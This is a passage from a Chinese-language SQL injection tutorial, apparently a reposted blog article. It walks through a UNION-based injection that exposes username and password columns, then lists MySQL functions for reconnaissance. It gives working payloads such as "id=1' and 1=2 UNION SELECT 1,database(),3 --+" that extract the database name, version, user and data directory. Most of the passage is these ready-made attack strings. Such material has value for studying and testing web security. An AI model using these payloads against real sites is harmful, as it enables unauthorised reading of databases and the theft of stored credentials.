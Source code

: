 ![][3] 
 
数据库表的结构完美验证了本次爆错出先的数字 `2` 和 `3` ，这里的数字代表字段，恰巧对应的字段值是: `username` 和 `password` 。 

## 收集信息
 
在爆出的字段值里面可以替换为我们的恶意语句，前期主要是收集信息，包括判断当前数据库是否是root用户，MySQL的版本等，一般收集这些信息常用一些MySQL自带的函数去收集信息:  **`MySQL常用的系统函数`**  

```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
 
#### 查询当前数据库名

```
id=1' and 1=2 UNION SELECT 1,database(),3 --+
```
 


![][4] 
 
###  查询MySQL版本 

```
id=1' and 1=2 UNION SELECT 1,2,version() --+
```
 


![][5] 
 
###  查询数据库用户和路径 

```
id=1' and 1=2 UNION SELECT 1,user(),@@datadir --+
```
 


![][6] 
 
查询数据库
 
查询数据库，一般来说我们注入的时候要查的就是当前的数据库，但有时候root权限就NB了还可以看到网站数据库之外的数据库内容。  **`查询当前数据库`**  

```
id=1' and 1=2 UNION SELECT 1,2,database() --+
```
 


![][7] 
 

[18]: http://www.sqlsec.com/2018/01/concat.html
[0]: https://img2.tuicool.com/mQFVNvU.jpg
[1]: https://img0.tuicool.com/eUJZva3.jpg
[2]: https://img0.tuicool.com/z2ERNzA.jpg
[3]: https://img2.tuicool.com/QbuQjeJ.jpg
[4]: https://img2.tuicool.com/NVNvMbm.jpg
[5]: https://img2.tuicool.com/u2Evqar.jpg
[6]: https://img0.tuicool.com/aeIbeai.jpg
[7]: https://img2.tuicool.com/26RzUbN.jpg
[8]: https://img0.tuicool.com/VzQ7ruj.jpg
[9]: https://img1.tuicool.com/bAjqeqn.jpg
[10]: https://img2.tuicool.com/eA7JFjR.gif
[11]: https://img2.tuicool.com/m2YBRza.jpg
[12]: https://img0.tuicool.com/iaEvy2i.jpg
[13]: https://img2.tuicool.com/eEV7Rnb.jpg
[14]: https://img2.tuicool.com/q2M7fyE.jpg
[15]: https://img1.tuicool.com/MRj6n2i.jpg
[16]: https://img2.tuicool.com/FjQFbmM.jpg
[17]: https://img1.tuicool.com/NjaqUnj.jpg